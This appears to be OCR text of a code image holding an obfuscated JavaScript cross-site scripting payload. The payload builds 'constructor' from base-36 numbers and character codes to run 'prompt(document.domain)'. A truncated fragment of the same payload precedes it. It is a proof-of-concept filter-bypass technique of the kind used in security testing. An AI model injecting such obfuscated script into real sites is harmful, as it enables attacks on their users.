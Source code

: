 ```javascript
        46,
        100,
        111,
        109,
        97,
        105,
        110,
        41
      )
    )();
  }
}
```

```javascript
{
  {
    x = 767015343;
    y = 50986827;
    a = x.toString(36) + y.toString(36);
    a.sub.call.call(
      {}[a].getOwnPropertyDescriptor(a.sub.__proto__, a).value,
      0,
      toString()[a].fromCodePoint(
        112,
        114,
        111,
        109,
        112,
        116,
        40,
        100,
        111,
        99,
        117,
        109,
        101,
        110,
        116,
        46,
        100,
        111,
        109,
        97,
        105,
        110,
        41
      )
    )();
  }
}
```
